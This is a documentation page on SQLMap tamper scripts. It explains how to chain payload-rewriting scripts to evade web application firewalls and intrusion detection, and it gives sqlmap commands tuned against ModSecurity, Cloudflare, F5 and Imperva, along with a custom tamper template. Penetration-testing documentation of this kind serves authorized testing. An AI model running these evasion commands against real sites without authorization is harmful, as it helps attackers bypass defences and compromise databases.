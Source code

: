 ```yaml
---
title: Tamper Scripts
description: Learn how to use SQLMap's tamper scripts to evade detection and bypass security controls
---
```


SQLMap's tamper scripts are powerful tools that modify SQL injection payloads to help evade detection by security mechanisms such as Web Application Firewalls (WAFs), Intrusion Detection Systems (IDS), and Intrusion Prevention Systems (IPS).

## Understanding Tamper Scripts

Tamper scripts work by transforming the SQL injection payload before it's sent to the target. These transformations can include:

- Character encoding
- Case manipulation
- Whitespace modification
- Comment insertion
- Syntax alterations
- String concatenation

## Using Tamper Scripts

### Basic Usage

To use a single tamper script:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --tamper=between
```

This applies the `between` tamper script, which replaces greater than and less than operators with equivalent BETWEEN expressions.

### Chaining Multiple Scripts

You can chain multiple tamper scripts, which will be applied in the specified order:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --tamper=between,space2comment,randomcase
```

This applies three tamper scripts in sequence:
1. `between`: Replaces operators with BETWEEN expressions
2. `space2comment`: Replaces spaces with comments
3. `randomcase`: Randomizes the case of SQL keywords

## Common Tamper Scripts

### Character Encoding Scripts

- `base64encode`: Encodes all characters in Base64
- `charencode`: URL-encodes all characters in a payload
- `charunicodeencode`: Unicode-encodes characters
- `hex2char`: Replaces hexadecimal encoded characters with their actual character

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --tamper=charencode
```

### Whitespace Manipulation Scripts

- `space2comment`: Replaces spaces with comments
- `space2dash`: Replaces spaces with dashes followed by a comment
- `space2hash`: Replaces spaces with hashes followed by a random string and a new line
- `space2plus`: Replaces spaces with plus signs
- `space2randomblank`: Replaces spaces with random whitespace characters

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --tamper=space2comment
```

### Case Manipulation Scripts

- `randomcase`: Randomizes the case of SQL keywords
- `lowercase`: Converts all uppercase characters to lowercase
- `uppercase`: Converts all lowercase characters to uppercase

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --tamper=randomcase
```

### Syntax Modification Scripts

- `between`: Replaces greater than and less than operators with BETWEEN expressions
- `equaltolike`: Replaces equal operators with LIKE operators
- `greatest`: Replaces greater than operator with GREATEST function
- `ifnull2ifisnull`: Replaces IFNULL with IF(IS NULL)
- `modsecurityversioned`: Adds versioned MySQL comment

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --tamper=between,equaltolike
```

## WAF-Specific Tamper Scripts

### ModSecurity

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --tamper=modsecurityversioned,space2comment,space2hash,charunicodeencode,securesphere
```

### Cloudflare

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --tamper=cloudflare
```

### F5 BIG-IP ASM

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --tamper=charunicodeencode,space2randomblank,apostrophemask,randomcase
```

### Imperva SecureSphere

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --tamper=securesphere
```

## Creating Custom Tamper Scripts

You can create custom tamper scripts to address specific evasion needs:

1. Create a Python file in the SQLMap `tamper` directory
2. Define a `tamper` function that takes and returns a payload
3. Implement your transformation logic

Example custom tamper script (mytamper.py):

```python
#!/usr/bin/env python

def tamper(payload, **kwargs):
    """
    Description of your tamper script
    """
    retVal = payload
    
    if payload:
        # Your transformation logic here
        retVal = payload.replace("SELECT", "SEL/**/ECT")
    
    return retVal
```


## Troubleshooting Tamper Scripts

If you're having issues with tamper scripts:

1. Use verbose mode (-v) to see the transformed payloads
2. Try different combinations of tamper scripts
3. Ensure the tamper scripts are compatible with your target DBMS
4. Consider the order of tamper scripts, as it can affect the final payload
5. Some tamper scripts may break the syntax for certain injection types
